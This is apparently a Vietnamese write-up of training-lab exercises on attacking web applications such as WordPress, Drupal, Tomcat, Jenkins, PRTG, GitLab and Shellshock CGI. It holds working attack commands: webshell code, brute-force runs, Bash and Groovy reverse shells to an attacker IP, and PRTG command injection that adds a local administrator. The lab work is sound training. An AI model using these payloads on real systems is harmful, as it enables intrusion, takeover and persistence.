





# Application Discovery & Enumeration

#### Questions

vHosts needed for these questions:

- `app.inlanefreight.local`
- `dev.inlanefreight.local`
- `drupal-dev.inlanefreight.local`
- `drupal-qa.inlanefreight.local`
- `drupal-acc.inlanefreight.local`
- `drupal.inlanefreight.local`
- `blog.inlanefreight.local`

+ 0  Use what you've learned from this section to generate a report with EyeWitness. What is the name of the .db file EyeWitness creates in the inlanefreight_eyewitness folder? (Format: filename.db)

+ 0  What does the header on the title page say when opening the aquatone_report.html page with a web browser? (Format: 3 words, case sensitive)

Thêm scope vào `/etc/hosts`

```zsh
cat scope_list.txt                                           
app.inlanefreight.local
dev.inlanefreight.local
drupal-dev.inlanefreight.local
drupal-qa.inlanefreight.local
drupal-acc.inlanefreight.local
drupal.inlanefreight.local
blog.inlanefreight.local
```

```zsh
echo 10.129.42.195 $(paste -sd ' ' scope_list.txt) | sudo tee -a /etc/hosts
10.129.42.195 app.inlanefreight.local dev.inlanefreight.local drupal-dev.inlanefreight.local drupal-qa.inlanefreight.local drupal-acc.inlanefreight.local drupal.inlanefreight.local blog.inlanefreight.local
```

Quét scope với nmap

```zsh
mkdir nmap; cd nmap
sudo nmap -p 80,443,8000,8080,8180,8888,10000 --open -oA web_discovery -iL ../scope_list.txt -vv
```

Chụp màn hình với `eyewitness`

```zsh
eyewitness --web -x web_discovery.xml -d inlanefreight_eyewitness
```

Như vậy eyewitness sẽ tạo một file `.db` là `ew.db`


Chạy `aquatone`

```zsh
cat web_discovery.xml | /opt/aquatone -nmap
```

`Pages by Similarity`


# WordPress - Discovery & Enumeration

#### Questions
+ 0  Enumerate the host and find a flag.txt flag in an accessible directory.

```zsh
wpscan --url http://blog.inlanefreight.local -e --api-token Tg......
```

```zsh
[+] Upload directory has listing enabled: http://blog.inlanefreight.local/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
```



+ 0  Perform manual enumeration to discover another installed plugin. Submit the plugin name as the answer (3 words).

Truy cập vào bài viết đầu tiên: `http://blog.inlanefreight.local/?p=1`

Xem nguồn trang và thấy có plugin sau:


+ 0  Find the version number of this plugin. (i.e., 4.5.2)

Truy cập vào: http://blog.inlanefreight.local/wp-content/plugins/wp-sitemap-page/readme.txt


# Attacking WordPress

#### Questions
vHosts needed for these questions:

- `blog.inlanefreight.local`

+ 0  Perform user enumeration against http://blog.inlanefreight.local. Aside from admin, what is the other user present?

```zsh
[i] User(s) Identified:

[+] by:
                                                                        admin
 | Found By: Author Posts - Display Name (Passive Detection)

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] doug
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

+ 0  Perform a login bruteforcing attack against the discovered user. Submit the user's password as the answer.

```zsh
wpscan --password-attack xmlrpc -t 20 -U doug -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

+ 0  Using the methods shown in this section, find another system user whose login shell is set to /bin/bash.


Payload:

```url
http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```


```zsh
webadmin:x:1001:1001::/home/webadmin:/bin/bash
mrb3n:x:1002:1002::/home/mrb3n:/bin/sh
```

+ 0  Following the steps in this section, obtain code execution on the host and submit the contents of the flag.txt file in the webroot.

Đăng nhập với người dùng `douge` tại `/wp-login.php`

Truy cập vào `Theme Editor`


Chọn theme khác có trang 404.php, ở đây tôi dùng `Twenty Nineteen`


Thêm phần này vào đầu file:

```php
system($_GET['cmd']);
```


Sau đó payload sẽ là:

```url
view-source:http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?cmd=cat%20../../../flag_d8e8fca2dc0f896fd7cb4cb0031ba249.txt
```

# Joomla - Discovery & Enumeration

#### Questions

vHosts needed for these questions:

- `app.inlanefreight.local`

+ 0  Fingerprint the Joomla version in use on http://app.inlanefreight.local (Format: x.x.x)

```zsh
curl -s http://app.inlanefreight.local/administrator/manifests/files/joomla.xml                                                    
<?xml version="1.0" encoding="UTF-8"?>
<extension version="3.6" type="file" method="upgrade">
        <name>files_joomla</name>
        <author>Joomla! Project</author>
        <authorEmail>admin@joomla.org</authorEmail>
        <authorUrl>www.joomla.org</authorUrl>
        <copyright>(C) 2019 Open Source Matters, Inc.</copyright>
        <license>GNU General Public License version 2 or later; see LICENSE.txt</license>
        <version>3.10.0</version>
        <creationDate>August 2021</creationDate>
        <description>FILES_JOOMLA_XML_DESCRIPTION</description>
```

+ 0  Find the password for the admin user on http://app.inlanefreight.local

```zsh
sudo python3 /opt/joomla-brute.py -u http://app.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
 admin:turnkey
```

# Attacking Joomla

#### Questions
vHosts needed for these questions:

- `dev.inlanefreight.local`

+ 0  Leverage the directory traversal vulnerability to find a flag in the web root of the http://dev.inlanefreight.local/ Joomla application

Đăng nhập với `admin:admin`


Truy cập vào `http://dev.inlanefreight.local/administrator/index.php?option=com_plugins&view=plugins`

Disable tiện ích này đi:


Chọn `Templates` -> `Templates` -> Template đang dùng (Được đánh dấu sao ở mục Style)


Tôi sẽ sửa file `error.php`


```zsh
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?e3c230597dc6f83fd9b03394c053c91b=cat%20../../flag_6470e394cbf6dab6a91682cc8585059b.txt 
j00mla_c0re_d1rtrav3rsal!
```

# Drupal - Discovery & Enumeration
#### Questions
vHosts needed for these questions:

- `drupal.inlanefreight.local`
- `drupal-qa.inlanefreight.local`

+ 0  Identify the Drupal version number in use on http://drupal-qa.inlanefreight.local

Truy cập vào `http://drupal-qa.inlanefreight.local/CHANGELOG.txt`


# Attacking Drupal

#### Questions
vHosts needed for these questions:

- `drupal-qa.inlanefreight.local`
- `drupal-dev.inlanefreight.local`

+ 0  Work through all of the examples in this section and gain RCE multiple ways via the various Drupal instances on the target host. When you are done, submit the contents of the flag.txt file in the /var/www/drupal.inlanefreight.local directory.

Chúng ta biết được rằng phiên bản này là 7.30, một phiên bản drupal khá cũ, vậy hãy thử khai thác RCE bằng nhiều cách.
### Leveraging the PHP Filter Module

Đăng nhập với thông tin xác thực: `admin:admin`

Tại `modules`, kiểm tra xem liệu `PHP filter` đã được bật hay chưa, nếu chưa hãy enable module này và save configuration.


Chọn `Add content` -> `Basic page`


Tạo trang mới có chứa payload:


Và chúng ta có RCE:


Lụm cái flag:

```
http://drupal-qa.inlanefreight.local/node/3?93280687b2335b45acb180ce9340cb2f=cat%20../drupal.inlanefreight.local/flag_6470e394cbf6dab6a91682cc8585059b.txt
```

### Uploading a Backdoored Module

Chúng ta sẽ upload một module độc hại nhằm thực thi mã từ xa.

Trước hết tải xuống một module từ trang chủ:

```zsh
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```

Giải nén ra và đổi tên:

```zsh
tar xvf <filename>

mv <foldername> capcha
```


Tạo file payload `shell.php`


Tạo file `.htaccess`

```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

Tiến hành nén lại thành module

```zsh
mv .htaccess shell.php capcha

tar cvf capcha.tar.gz capcha
```


Do phiên bản của `drupal-qa.inlanefreight.local` không có mục uploads module hoặc tôi không tìm thấy :v nên tôi sẽ thử với `drupal-dev` cũng không có luôn :v

#### Drupalgeddon

Tạo tài khoản với quyền admin:

```zsh
python2.7 34992.py -t http://drupal-qa.inlanefreight.local -u PuddingSudo -p password
```


#### Drupalgeddon2


Chúng ta upload một file .php


#### Drupalgeddon3

Tải xuống exploit từ exploitdb, di chuyển nó vào modules của metasploit:

```zsh
sudo mv 44557.rb /usr/share/metasploit-framework/modules/exploits/multi/http/drupal_drupageddon3.rb
```

Reload lại modules

```zsh
sudo msfconsole -q

msf6 > reload_all
```

Tiến hành khai thác:

Drupal_SESSION sẽ là cookie của chúng ta khi đăng nhập với quyền admin


```zsh
use exploit/multi/http/drupal_drupageddon3

msf6 exploit(multi/http/drupal_drupageddon3) > set lhost tun0
lhost => tun0
msf6 exploit(multi/http/drupal_drupageddon3) > set rhosts 10.129.82.231
msf6 exploit(multi/http/drupal_drupageddon3) > set vhost drupal-qa.inlanefreight.local
vhost => drupal-dev.inlanefreight.local
msf6 exploit(multi/http/drupal_drupageddon3) > set drupal_node 1
drupal_node => 1
msf6 exploit(multi/http/drupal_drupageddon3) > set drupal_session SESS1870755745b9b67ba28e06f87f264552=CSIX0eFiI6rkGucfgtKoo3DYZZBT6cqYRNd8xFJDpJo
drupal_session => SESS1870755745b9b67ba28e06f87f264552=CSIX0eFiI6rkGucfgtKoo3DYZZBT6cqYRNd8xFJDpJo

```


# Tomcat - Discovery & Enumeration

#### Questions
vHosts needed for these questions:

- `app-dev.inlanefreight.local`
- `web01.inlanefreight.local`

+ 0  What version of Tomcat is running on the application located at http://web01.inlanefreight.local:8180?

Truy cập vào `http://web01.inlanefreight.local:8180/docs/`


+ 0  What role does the admin user have in the configuration example?


# Attacking Tomcat

#### Questions
vHosts needed for these questions:

- `web01.inlanefreight.local`

+ 0  Perform a login bruteforcing attack against Tomcat manager at http://web01.inlanefreight.local:8180. What is the valid username?

Chọn module brute force:


Tôi sẽ set thêm proxy thông qua `burp` để có thể thử thêm bruteforce với burpsuite

```zsh
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 10.129.201.58
rhosts => 10.129.201.58
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set vhost web01.inlanefreight.local
vhost => web01.inlanefreight.local
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rport 8180
rport => 8081
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set proxies HTTP:127.0.0.1:8080
proxies => HTTP:127.0.0.1:8080
```

```zsh
[+] 10.129.201.58:8180 - Login Successful: tomcat:root
```

+ 0  What is the password?

BruteForce với Burpsuite Pro:

Như ở trên tôi đã bật sẵn burpsuite và giữ lại request mà msf đã gửi đi.


Gửi nó tới `intruder`. Ở đây theo như mặc định có 2 file username và password. Tuy nhiên tôi không muốn gộp chúng lại thành một và sau đó mã hóa base64 nên tôi chọn option `clusted bomb attack`
và thêm sẵn 2 biến để fuzz:


Tại payload position 2, chúng ta chọn `tomcat_mgr_default_pass.txt`


Tại payload position 1, chúng ta chọn `tomcat_mgr_default_users.txt`


Tuy nhiên định dạng đúng phải là `username:password`, vậy tôi sẽ thêm rule cho username bằng cách chọn payload postion 1 -> thêm kí tự `:` ở cuối username (add suffix), sau đó mã hóa base64.


Bỏ chọn encoding


Đối với `password` ta chọn `payload position 2` sau đó chỉ việc thêm rule base64 encode. 


Bỏ chọn encoding


Tuy nhiên cách này không thành công vì chúng ta buộc phải encode một chuỗi liền nhau, nếu không kết quả sẽ như này: `dG9tY2F0Og==YWRtaW4=`. Do đó buộc ta phải gộp lại thành một danh sách tách nhau bởi `:` với burpsuite hoặc `python` hoặc `bash`.

Chuyển sang `sniper attack`


Chọn payload type là `custom iterator`, position 1 load file username:


Thêm dấu `:` ngăn cách với password


Tại position 2, load file password:


Cuối cùng, thêm rule encode base64, nhớ bỏ chọn url encode ở cuối




Mặc định base64 encode của burp suite sẽ tự thêm kí tự newline, hãy cẩn thận.

+ 1  Obtain remote code execution on the http://web01.inlanefreight.local:8180 Tomcat instance. Find and submit the contents of tomcat_flag.txt

Tạo payload

```zsh
msfvenom -p java/jsp_shell_reverse_tcp lhost=tun0 lport=4444 -f war -o 28afbc9529a8855939ff7d2d8ad9295c.war
```

Đăng nhập với `tomcat:root`

Tải shell lên tomcat


Cấu hình trên msfconsole

```zsh
msf6 exploit(multi/handler) > set lhost tun0 
lhost => tun0
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > set payload java/jsp_shell_reverse_tcp 
payload => java/jsp_shell_reverse_tcp
msf6 exploit(multi/handler) > run
```

Lấy shell


# Jenkins - Discovery & Enumeration

#### Questions
vHosts needed for these questions:

- `jenkins.inlanefreight.local`

 Authenticate to  with user "admin" and password "admin"

+ 1  Log in to the Jenkins instance at http://jenkins.inlanefreight.local:8000. Browse around and submit the version number when you are ready to move on.


# Attacking Jenkins

#### Questions
vHosts needed for these questions:

- `jenkins.inlanefreight.local`

+ 0  Attack the Jenkins target and gain remote code execution. Submit the contents of the flag.txt file in the /var/lib/jenkins3 directory

Chạy đoạn mã sau: trong `http://jenkins.inlanefreight.local:8000/script`

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.66/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```


# Splunk - Discovery & Enumeration

#### Questions
+ 0  Enumerate the Splunk instance as an unauthenticated user. Submit the version number to move on (format 1.2.3).

Quét host với nmap:

```zsh
PORT     STATE SERVICE       REASON          VERSION
80/tcp   open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 127
3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8089/tcp open  ssl/http      syn-ack ttl 127 Splunkd httpd
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Truy cập vào `https://10.129.201.50:8089/`


# Attacking Splunk

#### Questions
+ 0  Attack the Splunk target and gain remote code execution. Submit the contents of the flag.txt file in the c:\loot directory.

Chỉnh IP và port trong run.ps1 nếu là windows, rev.py nếu là linux


Chỉnh để tắt rev.py vì host là windows


Nén file lại và tải lên

```zsh
tar cvzf 28afbc9529a8855939ff7d2d8ad9295c.tar.gz reverse_shell_splunk 
reverse_shell_splunk/
reverse_shell_splunk/bin/
reverse_shell_splunk/bin/run.ps1
reverse_shell_splunk/bin/run.bat
reverse_shell_splunk/bin/rev.py
reverse_shell_splunk/default/
reverse_shell_splunk/default/inputs.conf
```

Truy cập `https://10.129.201.50:8000/en-US/app/launcher/home`

Chọn Manage Apps (Góc bên trái) -> Install app from file


Tải file lên và nhận shell


# PRTG Network Monitor

#### Questions
+ 1  What version of PRTG is running on the target?

```zsh
sudo nmap -sV 10.129.201.50 -vv
PORT     STATE SERVICE       REASON          VERSION
80/tcp   open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 127
3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8000/tcp open  ssl/http      syn-ack ttl 127 Splunkd httpd
8080/tcp open  http          syn-ack ttl 127 Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
8089/tcp open  ssl/http      syn-ack ttl 127 Splunkd httpd
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Như vậy PRTG đang chạy ở port 8080

Truy cập vào trang chủ và view source


+ 0  Attack the PRTG target and gain remote code execution. Submit the contents of the flag.txt file on the administrator Desktop.

Đăng nhập với thông tin `prtgadmin:Password123`


Chọn Setup -> Account Settings -> Notifications -> Add new notification


Đặt tên cho thông báo, cuộn xuống và đánh dấu vào ô bên cạnh `EXECUTE PROGRAM`. Bên dưới `Program File`, chọn `Demo exe notification - outfile.ps1`từ danh sách. Cuối cùng, trong trường tham số, nhập lệnh. Tôi sẽ thêm người dùng quản trị cục bộ mới bằng cách nhập `test.txt;net user SoraTsumi Pwned_by_SoraTsum1! /add;net localgroup administrators SoraTsumi /add`. Trong quá trình đánh giá thực tế, chúng ta có thể muốn thực hiện một thao tác nào đó mà không làm thay đổi hệ thống, chẳng hạn như tạo shell ngược hoặc kết nối với C2. Cuối cùng, nhấp vào `Save`.

```powershell
test.txt;net user SoraTsumi Pwned_by_SoraTsum1! /add;net localgroup administrators SoraTsumi /add
```

Hoặc dùng powershell base64

```powershell
test.txt; powershell -encodedcommand bmV0IHVzZXIgU29yYVRzdW1pIFB3bmVkX2J5X1NvcmFUc3VtMSEgL2FkZDtuZXQgbG9jYWxncm91cCBhZG1pbmlzdHJhdG9ycyBTb3JhVHN1bWkgL2FkZAo=
```


Sau khi thêm vào nó sẽ ở đây:


Để kích hoạt payload, chúng ta phải đặt lịch chạy cho thông báo.

Trước hết phải đồng bộ thời gian với máy chủ:

```zsh
sudo ntpdate -s 10.129.201.50
```

Nếu không được ta phải canh thời gian bằng thanh thời gian bên dưới footer:


Tiếp theo, tạo một lịch chạy thông báo: Vào Account settings -> Schedules -> Add a new schedule

Đặt tên và thời gian, chọn options  `Use list of period definitions `
Đặt thời gian theo định dạng `ww:hh:mm-ww:hh:mm` định dạng thời gian là 24h không `am/pm`
Ví dụ `tu:04:05-tu:04:06`


Sau khi lưu lại nó sẽ xuất hiện ở đây:


Quay lại mục `notifications` chọn vào edit notification mà ta chèn mã độc rồi chọn lịch schedule mà ta vừa thiết lập


Chờ kết quả hoặc nhấn test notification.
### Khai thác với metasploit

```zsh
msf6 exploit(windows/http/prtg_authenticated_rce) > set admin_password Password123
admin_password => Password123
msf6 exploit(windows/http/prtg_authenticated_rce) > set lhost tun0
lhost => 10.10.14.66
msf6 exploit(windows/http/prtg_authenticated_rce) > set lport 1234
lport => 1234
msf6 exploit(windows/http/prtg_authenticated_rce) > set rhosts 10.129.201.50
rhosts => 10.129.201.50
msf6 exploit(windows/http/prtg_authenticated_rce) > set rport 8080
rport => 8080
```


Có thể có một số cách không được, chúng ta sẽ chia làm 2 notifications để tránh bị lỗi câu lệnh

Đầu tiên là thêm user mới

```powershell
C:\Users\Public\tester.txt;net user SoraTsumi SoraTsum1! /add
```


Tiếp theo là thêm vào nhóm local admin

```powershell
C:\Users\Public\tester.txt;net localgroup administrators /add SoraTsumi
```


Thiết lập schedule cho cả hai.


Lưu ý nếu payload không hoạt động hãy sử dụng tính năng test notification.

Kiểm tra sau khi chạy câu lệnh khi tôi đang có revershell từ msfconsole

```powershell
net user
```


```zsh
nxc rdp 10.129.201.50 -u SoraTsumi -p 'SoraTsum1!' --local-auth
```


Chúng ta hoàn toàn có thể lấy phiên rdp:

```zsh
xfreerdp3 /v:10.129.201.50 /u:SoraTsumi /p:'SoraTsum1!' /drive:linux,/mnt/share
```


Hoặc winrm

```zsh
evil-winrm -i 10.129.201.50 -u SoraTsumi -p 'SoraTsum1!'
```


# osTicket

#### Questions
vHosts needed for these questions:

- `support.inlanefreight.local`

+ 1  Find your way into the osTicket instance and submit the password sent from the Customer Support Agent to the customer Charles Smithson .

Tại `http://support.inlanefreight.local/scp/login.php`

Đăng nhập với `kevin@inlanefreight.local` và mật khẩu `Fish1ng_s3ason!`

Tại mục Users, ta thấy có một phiếu hỗ trợ


# Gitlab - Discovery & Enumeration

#### Questions
vHosts needed for these questions:

- `gitlab.inlanefreight.local`

+ 1  Enumerate the GitLab instance at http://gitlab.inlanefreight.local. What is the version number?

Truy cập vào `gitlab` đăng kí tài khoản mới và truy cập `/help`


+ 1  Find the PostgreSQL database password in the example project.

Duyệt qua `gitlab.inlanefreight.local/explore`


Kiểm tra qua mã nguồn, ở dự án thứ hai ta phát hiện xml của mysql và potgreSQL


# Attacking GitLab

#### Questions
vHosts needed for these questions:

- `gitlab.inlanefreight.local`

+ 1  Find another valid user on the target GitLab instance.

### Username Enumeration

```zsh
python3 gitlab_userenum.py --url http://gitlab.inlanefreight.local:8081/ --wordlist /usr/share/wordlists/seclists/Usernames/cirt-default-usernames.txt
```


+ 1  Gain remote code execution on the GitLab instance. Submit the flag in the directory you land in.

```zsh
python3 49951.py -u SoraTsumi -p 'Password123!' -t http://gitlab.inlanefreight.local:8081/ -c 'bash -i >& /dev/tcp/10.10.14.123/5555 0>&1'
```


# Attacking Tomcat CGI

#### Questions
+ 0  After running the URL Encoded 'whoami' payload, what user is tomcat running as?

Quét nmap

```zsh
sudo nmap -sCV -p- -T 4 --min-rate 3000 10.129.205.30 --open -vv
```

Tomcat chạy ở cổng 8080


Tiến hành fuzing để tìm tập lệnh CGI

```zsh
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u 'http://10.129.205.30:8080/cgi/FUZZ' -e .bat,.cmd
```


Thực thi mã từ xa:

```zsh
curl 'http://10.129.205.30:8080/cgi/welcome.bat?&C%3A%5CWindows%5Csystem32%5Cwhoami.exe' 
Welcome to CGI, this section is not functional yet. Please return to home page.
feldspar\omen
```


# Attacking Common Gateway Interface (CGI) Applications - Shellshock
#### Questions
+ 0  Enumerate the host, exploit the Shellshock vulnerability, and submit the contents of the flag.txt file located on the server.

Fuzzing cgi file:

```zsh
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u 'http://10.129.72.173/cgi-bin/FUZZ.cgi'

access                  [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 266ms]
```

Lấy reverse shell

```zsh
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.123/3333 0>&1' -s  http://10.129.72.173/cgi-bin/access.cgi
```


# Attacking Thick Client Applications
#### Questions

 RDP to 10.129.228.115 (ACADEMY-ACA-PIVOTAPI) with user "cybervaca" and password "&aue%C)}6g-d{w"

+ 0  Perform an analysis of C:\Apps\Restart-OracleService.exe and identify the credentials hidden within its source code. Submit the answer using the format username:password.


Chạy `procmon64` từ `C:\TOOLS\ProcessMonitor` và bật capture.

Chạy File cần phân tích trong `C:\Apps\`


Trong khi chương trình chạy, ta có thể bật tasklist lên để xem PID của nó, để lọc dễ hơn.


Sau khi chạy xong, mở vào procmon64 và kiểm tra.

Chương trình này tạo một file: `C:\Users\cybervaca\AppData\Local\Temp\2\D9CC.tmp`


Tuy nhiên nó đã bị xóa khi kết thúc chương trình.
Chúng ta sẽ chỉnh quyền để file không bị xóa.


Disable inheritiance


Chọn convert...


Sau đó chọn Edit -> Show Advance Permissions -> Bỏ chọn 2 dòng Delete


Quay trở lại thư mục `temp`, thấy rằng các file được tạo đã ở đây


Đọc mã nguồn của file `.bat`.

Ở cuối file, chúng ta thấy nó đang cố gắng xóa một file powershell `monta.ps1` 


Sửa lại để không xóa file nữa:


Sau đó ta thực thi file .bat và tìm `monta.ps1`


```powershell
$salida = $null; $fichero = (Get-Content C:\ProgramData\oracle.txt) ; foreach ($linea in $fichero) {$salida += $linea }; $salida = $salida.Replace(" ",""); [System.IO.File]::WriteAllBytes("c:\programdata\restart-service.exe", [System.Convert]::FromBase64String($salida)) 
```

File này sẽ chuyển đổi nội dung trong `C:\ProgramData\oracle.txt` thành file `.exe`

**NOTE: Muốn vào được powershell, chúng ta phải trả lại Security Settings cho thư mục temp mà chúng ta đã sửa.**


Vào `x64dbg.exe`

Tại options -> Preferences chỉnh setting như sau:


By unchecking the other options, the debugging will start directly from the application's exit point, and we will avoid going through any `dll` files that are loaded before the app starts. Then, we can select `file` -> `open` and select the `restart-service.exe` to import it and start the debugging. Once imported, we right click inside the `CPU` view and `Follow in Memory Map`


Tìm MAP với Protection `RW`


Nhấn đúp vào để phân tích


If we double-click on it, we will see the magic bytes `MZ` in the `ASCII` column that indicates that the file is a [DOS MZ executable](https://en.wikipedia.org/wiki/DOS_MZ_executable).


Quay trở lại tab Memory Map, Chúng ta chọn MAP mà đã phân tích -> Dump Memory to File

C:\> C:\TOOLS\Strings\strings64.exe .\restart-service_00000000001E0000.bin

```powershell
C:\> C:\TOOLS\Strings\strings64.exe .\restart-service_00000000001E0000.bin
<SNIP>
"#M
z\V
).NETFramework,Version=v4.0,Profile=Client
FrameworkDisplayName
.NET Framework 4 Client Profile
<SNIP>
```

Reading the output reveals that the dump contains a `.NET` executable. We can use `De4Dot` to reverse `.NET` executables back to the source code by dragging the `restart-service_00000000001E0000.bin` onto the `de4dot` executable.


Mở `dnspy` open file cleaned và tìm file main:


Có được tên tài khoản và mật khẩu reset dịch vụ.

```C#
process.StartInfo.UserName = "svc_oracle";
	process.StartInfo.UseShellExecute = false;
	SecureString secureString = new SecureString();
	string text = "#oracle_s3rV1c3!2010";
```

# Exploiting Web Vulnerabilities in Thick-Client Applications

#### Questions

 RDP to 10.129.228.115 (ACADEMY-ACA-PIVOTAPI) with user "cybervaca" and password "&aue%C)}6g-d{w"

+ 0  What is the IP address of the eth0 interface under the ServerStatus -> Ipconfig tab in the fatty-client application?

Thông tin đăng nhập được cấp:  `qtc / clarabibi`


Chúng ta sẽ kiểm tra với wireshark. Địa chỉ của chúng ta đang là `172.16.17.115`


Như vậy chúng ta đang yêu cầu đến cổng 8000 thay vì 1337.

Giải nén file `fatty-client.rar`


Tìm kiếm file config cổng 8000


Sửa 8000 thành 1337


Để loại bỏ hàm băm kí xác thực ứng dụng, trước hết ta xóa các file này trong `META-INF`


Tiếp tục, cần xóa giá trị băm trong `META-INF/MANIFEST.MF`


Sau khi chỉnh sửa, ta sẽ build lại file jar mới

```powershell
PS C:\Apps> cd .\fatty-client\
PS C:\Apps\fatty-client> jar -cmf .\META-INF\MANIFEST.MF ..\fatty-client-new.jar *
PS C:\Apps\fatty-client>
```

Chúng ta đăng nhập với ứng dụng mới:


Chúng ta không có quyền admin, hầu hết các chức năng đã bị hạn chế.


Tại FileBrowser, có vẻ như có một bộ lọc ngăn việc xảy ra LFI.


